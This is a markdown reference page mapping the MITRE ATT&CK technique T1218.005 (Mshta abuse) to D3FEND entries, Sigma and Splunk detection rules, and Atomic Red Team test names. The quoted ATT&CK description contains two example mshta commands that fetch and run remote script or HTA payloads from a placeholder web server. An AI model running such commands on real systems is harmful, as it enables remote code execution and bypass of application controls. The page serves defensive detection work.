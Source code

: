 # T1218.005: Mshta
**MITRE ATT&CK Tactic(s):** Defense Evasion

**[MITRE ATT&CK Description](https://attack.mitre.org/techniques/T1218/005)**
<blockquote>Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)</blockquote>

## Policy / Process Controls
### [MITRE D3FEND](https://d3fend.mitre.org/)
**Last accessed:** April 27, 2022

**Total ATT&CK-mapped resources:** 2328

**ATT&CK-mapped resources for this (sub)technique:** 1

Resources mapped to this (sub)technique can be viewed on [this page](https://d3fend.mitre.org/) (see also the [ATT&CK to D3FEND Mapper](https://d3fend.mitre.org/tools/attack-mapper) tool):

* [no defensive relations yet](https://d3fend.mitre.org/techniques/d3f:nodefensiverelationsyet)

## Technical Controls (Detection Rules)
### [Sigma rules public repository](https://github.com/SigmaHQ/sigma)
**Last accessed:** April 27, 2022

**Total ATT&CK-mapped rules:** 2330

**ATT&CK-mapped resources for this (sub)technique:** 8

Resources mapped to this (sub)technique can be located in the following files within [this repository](https://github.com/SigmaHQ/sigma/tree/master/rules):

* [sigma/rules/windows/create_remote_thread/sysmon_cactustorch.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/create_remote_thread/sysmon_cactustorch.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_apt_babyshark.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_babyshark.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_lethalhta.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_lethalhta.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_mshta_javascript.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_mshta_javascript.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_mshta_spawn_shell.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_mshta_spawn_shell.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_possible_applocker_bypass.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_possible_applocker_bypass.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_csc.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_csc.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_mshta_execution.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_mshta_execution.yml)

### [Splunk Security Content](https://github.com/splunk/security_content)
**Last accessed:** April 27, 2022

**Total ATT&CK-mapped rules:** 1393

**ATT&CK-mapped resources for this (sub)technique:** 12

Resources mapped to this (sub)technique can be located in the following files within [this repository](https://github.com/splunk/security_content/tree/develop/detections):

* [security_content/detections/endpoint/ssa___windows_rundll32_inline_hta_execution.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/ssa___windows_rundll32_inline_hta_execution.yml)
* [security_content/detections/endpoint/mshta_spawning_rundll32_or_regsvr32_process.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/mshta_spawning_rundll32_or_regsvr32_process.yml)
* [security_content/detections/endpoint/detect_mshta_inline_hta_execution.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_mshta_inline_hta_execution.yml)
* [security_content/detections/endpoint/suspicious_mshta_child_process.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_mshta_child_process.yml)
* [security_content/detections/endpoint/detect_mshta_url_in_command_line.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_mshta_url_in_command_line.yml)
* [security_content/detections/endpoint/ssa___windows_mshta_inline_hta_execution.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/ssa___windows_mshta_inline_hta_execution.yml)
* [security_content/detections/endpoint/ssa___windows_mshta_child_process.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/ssa___windows_mshta_child_process.yml)
* [security_content/detections/endpoint/office_product_spawn_cmd_process.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/office_product_spawn_cmd_process.yml)
* [security_content/detections/endpoint/suspicious_mshta_spawn.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_mshta_spawn.yml)
* [security_content/detections/endpoint/ssa___windows_mshta_command_line_url.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/ssa___windows_mshta_command_line_url.yml)
* [security_content/detections/endpoint/detect_rundll32_inline_hta_execution.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_rundll32_inline_hta_execution.yml)
* [security_content/detections/endpoint/detect_mshta_renamed.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_mshta_renamed.yml)


## Offensive Security Tests
### [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
**Last accessed:** April 27, 2022

**Total ATT&CK-mapped tests:** 1161

**ATT&CK-mapped resources for this (sub)technique:** 10

The following unit tests mapped to this (sub)technique can be located in the file [here](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1218.005/T1218.005.yaml):

* Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject
* Mshta executes VBScript to execute malicious command
* Mshta Executes Remote HTML Application (HTA)
* Invoke HTML Application - Jscript Engine over Local UNC Simulating Lateral Movement
* Invoke HTML Application - Jscript Engine Simulating Double Click
* Invoke HTML Application - Direct download from URI
* Invoke HTML Application - JScript Engine with Rundll32 and Inline Protocol Handler
* Invoke HTML Application - JScript Engine with Inline Protocol Handler
* Invoke HTML Application - Simulate Lateral Movement over UNC Path
* Mshta used to Execute PowerShell

